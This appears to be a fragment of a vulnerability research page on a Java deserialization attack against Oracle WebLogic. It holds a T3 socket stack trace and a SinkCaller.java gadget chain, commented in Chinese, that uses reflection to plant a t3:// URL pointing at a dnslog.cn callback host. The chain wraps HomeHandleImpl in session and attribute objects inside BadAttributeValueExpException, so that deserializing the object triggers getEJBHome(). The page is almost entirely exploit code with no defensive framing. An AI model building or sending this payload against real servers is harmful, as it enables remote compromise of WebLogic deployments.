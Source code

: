 ```java
dispatch:507, MsgAbbrevJVMConnection (weblogic.rjvm)
dispatch:489, MuxableSocketT3 (weblogic.rjvm.t3)
dispatch:359, BaseAbstractMuxableSocket (weblogic.socket)
readReadySocketOnce:970, SocketMuxer (weblogic.socket)
readReadySocket:907, SocketMuxer (weblogic.socket)
process:495, NIOSocketMuxer (weblogic.socket)
processSockets:461, NIOSocketMuxer (weblogic.socket)
run:30, SocketReaderRequest (weblogic.socket)
execute:43, SocketReaderRequest (weblogic.socket)
execute:147, ExecuteThread (weblogic.kernel)
run:119, ExecuteThread (weblogic.kernel)
```

SinkCaller.java
```java
String url = "t3://xx.cbix91.dnslog.cn:7001/xx";
Name name = new LdapName("cn=x, dc=x");
HomeHandleImpl homeHandle = new HomeHandleImpl(null, name, null);
// 反射修改 serverURL
Field serverURL = homeHandle.getClass().getDeclaredField("serverURL");
serverURL.setAccessible(true);
serverURL.set(homeHandle, url);
// 调用 getEJBHome()
homeHandle.getEJBHome();

BusinessHandleImpl businessHandle = new BusinessHandleImpl();
// 反射修改 homeHandle
Field homeHandleF = businessHandle.getClass().getDeclaredField("homeHandle");
homeHandleF.setAccessible(true);
homeHandleF.set(businessHandle, homeHandle);
// 调用 getBusinessObject() ->  触发Sink：getEJBHome()
// businessHandle.getBusinessObject();

AttributeWrapperUtils attributeWrapperUtils = new AttributeWrapperUtils();
AttributeWrapper attributeWrapper = new AttributeWrapper(businessHandle);
// 反射修改 isEJBObjectWrapped
Field isEJBObjectWrapped = attributeWrapper.getClass().getDeclaredField("isEJBObjectWrapped");
isEJBObjectWrapped.setAccessible(true);
isEJBObjectWrapped.set(attributeWrapper, true);
// 调用 unwrapObject() -> unwrapEJBObjects() -> getBusinessObject() -> getEJBHome()
attributeWrapperUtils.unwrapObject("xxxx", attributeWrapper, null);

FileSessionData sessionData = new FileSessionData();
//  反射修改 attributes
Map map = new HashMap<>();
map.put("wl_debug_session", attributeWrapper);
Field attributes = sessionData.getClass().getSuperclass().getDeclaredField("attributes");
attributes.setAccessible(true);
attributes.set(sessionData, map);
// 调用 toString()
//sessionData.toString();

// 通过BadAttributeValueExpException来调用toString方法
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
Field val = badAttributeValueExpException.getClass().getDeclaredField("val");
val.setAccessible(true);
val.set(badAttributeValueExpException,sessionData);

return badAttributeValueExpException;
```
